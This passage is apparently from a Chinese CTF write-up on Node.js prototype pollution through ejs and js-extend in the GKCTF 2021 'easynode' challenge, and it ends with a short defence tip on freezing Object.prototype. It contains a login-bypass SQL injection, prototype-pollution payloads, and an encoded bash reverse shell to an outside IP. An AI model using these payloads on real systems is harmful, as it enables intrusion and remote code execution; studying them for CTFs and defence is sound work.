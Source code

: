 ```json
{"constructor": {"prototype": {"client": true,"escapeFunction": "1; return
process.env.FLAG","debug":true, "compileDebug": true}}}
```

[MRCTF 2022]hurry up

#### ejs + js-extend

##### [GKCTF 2021]easynode

一看依赖文件，经典ejs 3.1.5肯定有原型链污染，同时需要别的配合，这里的孤儿选手是js-extend

首先是绕admin权限的登录，在登录处对用户名和密码进行waf处理

![image-20220426181110393](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220426181110393.png)

用了`==`弱比较，并且safeStr用了相加，两个数组相加会得到一个字符串

```
username[]=admin'#&username[]=a&username[]=a&username[]=a&username[]=a&username[]=a&username[]=a&username[]=a&username[]=a&username[]=(&password=123456
```

这样sql语句会变为

```
select * from test where username = 'admin'#,1,1,1,1,1,1,1,1,1*' and password = '123456'
```

直接注释掉password登录

得到admin的token之后再到/addAdmin处添加用户（cookie的token字段记得修改）

```
username=__proto__&password=123
```

/adminDIV处post

```
data={"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('echo YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMDEuMzUuMTE0LjEwNy84NDI2IDA%2BJjEi|base64 -d|bash');var __tmp2"}
```

注意一定要b64+urlencode，再次访问/admin触发rce

## 防御策略

### 冻结原型

```js
Object.freeze(Object.prototype);
Object.freeze(Object);
({}).__proto__.test = 123
({}).test // this will be undefined
```
